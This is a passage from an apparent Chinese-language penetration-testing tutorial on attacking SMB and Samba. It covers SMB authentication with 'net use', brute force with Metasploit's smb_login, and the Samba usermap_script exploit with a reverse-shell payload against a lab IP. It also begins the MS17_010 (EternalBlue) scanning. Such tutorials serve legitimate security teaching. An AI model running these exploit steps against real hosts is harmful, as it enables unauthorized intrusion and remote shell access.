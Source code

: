 > 微软最初将SMB定位为WindowsServer2008和Vista系统中通⽤互联⽹⽂件系统 （CIFS）的后续产品。最新版本的SMB3.0在WindowsServer2012操作系统中出现，并且与 Windows8客⼾端共同⼯作。 SMB⼀种客⼾机/服务器、请求/响应协议。通过SMB协议，客⼾端应⽤程序可以在各种⽹络环境下 读、写服务器上的⽂件，以及对服务器程序提出服务请求。此外通过SMB协议，应⽤程序可以访问远 程服务器端的⽂件、以及打印机、邮件槽（mailslot）、命名管道（namedpipe）等资源。 对外开放SMB协议端⼝不多，默认端⼝为445，在内⽹中⽐较常⻅，尤其是存在域控的⽹络中，域控 管理主机⽤的就是这个协议，在内⽹横向移动的时候会经常使⽤，在操作⽬标服务器之前需要先进⾏认 证，认证的命令是：

```php
net use \\target\c$ /u:username password
```

爆破（139）
-------

使用msf下的 smb\_login工具即可，原理和上文介绍过的方式相同

SAMBA漏洞（445）
------------

Samba是一个能让Linux系统应用Microsoft网络通讯协议的软件，而SMB是Server Message Block的缩写，即为服务器消息块，SMB主要是作为Microsoft的网络通讯协议，后来Samba将SMB通信协议应用到了Linux系统上，就形成了现在的Samba软件。

```php
use exploit/multi/samba/usermap_script 
show payloads
```

![image-20220622090924029](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-72790f8e3f9d546426166f9c57e8e0cd263ceb79.png)

```php
set payload cmd/unix/reverse
由于靶机是linux系统，我们选择linux的payload
set RHOST 192.168.18.136
设置靶机ip
set RPORT 445
设置攻击端口
exploit
```

![image-20220622090806504](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-eeb7a3f4d364f5f616f5002398436baa9fc256d9.png)

### 利用msf工具实现永恒之蓝漏洞复现(445)

寻找MS17\_010漏洞

```php
search ms17_010
```

![image-20220528050240691](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-b1af36be38cba9f921fe58c77370d40efea52552.png)

这里找到了四个模块，我们用到的有两个。第一个是**漏洞利用**模块，我们先探测哪些主机存在漏洞，第四个**辅助模块**是探测主机是否存在MS17\_010漏洞

### 辅助探测模块

输入命令

```php
use auxiliary/scanner/smb/smb_ms17_010
```
